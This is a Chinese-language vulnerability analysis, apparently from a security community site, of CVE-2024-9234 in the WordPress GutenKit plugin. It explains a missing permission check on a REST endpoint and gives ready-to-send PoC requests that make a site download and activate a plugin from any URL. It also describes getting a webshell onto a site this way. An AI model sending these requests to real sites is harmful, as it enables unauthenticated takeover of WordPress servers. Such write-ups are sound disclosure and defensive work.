





# Wordpress_GutenKit插件Rce-CVE-2024-9234分析-先知社区

> **来源**: https://xz.aliyun.com/news/16498  
> **文章ID**: 16498

---

## 漏洞概述

由于在 2.1.0 及以上版本的所有版本中缺少 `install_and_activate_plugin_from_external()` 函数（install-active-plugin REST API 端点）的功能检查，WordPress 的 GutenKit – Page Builder Blocks、Patterns 和 Templates for Gutenberg Block Editor 插件容易受到任意文件上传攻击。这使得未经身份验证的攻击者可以安装和激活任意插件，或利用该功能上传伪装成插件的任意文件。

## 漏洞触发环境

* 基于Wordpress搭建的网站
* WordPress GutenKit插件 <= 2.1.0
* php版本7.4以上
* 本次测试环境Wordpress版本6.7.1

## 漏洞成因

该漏洞存在于`gutenkit-blocks-addon/gutenkit-blocks-addon.php`中的`install_and_activate_plugin_from_external`函数，这两个参数是可控的,并且会调用download\_url函数进行下载

  
发现该函数注册了路由可以直接调用,并且支持POST  
  


## 漏洞复现

理论可行，我们构造webshell压缩包上传到VPS，发送payload显示`The plugin directory does not exist after unzipping.`但是我们构造的webshell压缩包已经被解压放到插件目录  
  
访问插件目录下的webshell  


## Poc

官方Poc

```
POST /wp-json/gutenkit/v1/install-active-plugin HTTP/2
Host: wpscan-vulnerability-test-bench.ddev.site
Content-Type: application/json
Content-Length: 114

{
  "plugin": "https://downloads.wordpress.org/plugin/popularis-extra.1.2.6.zip",
  "slug": "popularis-extra"
}

```

```
POST /wp-json/gutenkit/v1/install-active-plugin HTTP/2
Host: wpscan-vulnerability-test-bench.ddev.site
Content-Type: application/x-www-from-urlencoded
Content-Length: 114

plugin=https://downloads.wordpress.org/plugin/popularis-extra.1.2.6.zip
```

## 插件链接

[gutenkit-blocks-addon.2.1.0](https://downloads.wordpress.org/plugin/gutenkit-blocks-addon.2.1.0.zip "gutenkit-blocks-addon.2.1.0")
